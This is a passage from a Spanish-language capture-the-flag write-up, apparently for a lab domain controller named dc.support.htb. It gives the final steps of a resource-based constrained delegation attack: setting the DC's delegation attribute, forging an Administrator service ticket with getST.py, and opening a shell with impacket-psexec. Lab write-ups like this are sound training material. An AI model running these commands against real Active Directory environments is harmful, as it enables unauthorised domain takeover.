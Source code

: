 ```
Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Si todo sale bien, ahora podemos continuar el ataque desde nuestra maquina linux obteniendo el ticket impersonando al usuario Administrator del DC, esto lo logramos utilizando la herramienta `getST.py`, (recordar agregar también a dc.support.htb al `/etc/hosts`):

```
getST.py -spn 'cifs/dc.support.htb' -impersonate 'Administrator' 'domain/atacante1$:Password123!'
```

Esto nos genera un ticket el cual lo importamos en la variable `KRB5CCNAME`:

```
export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

Con esto ya podriamos entrar directamente utilizando la herramienta de psexec indicando que nos queremos autenticar utilizando kerberos:

```
impacket-psexec -k dc.support.htb
```

![Pasted image 20250619195141](https://github.com/user-attachments/assets/f8861c24-6859-4bcb-8324-36930763de66)

Y eso es todo!, gracias por leer:)

~x0tic
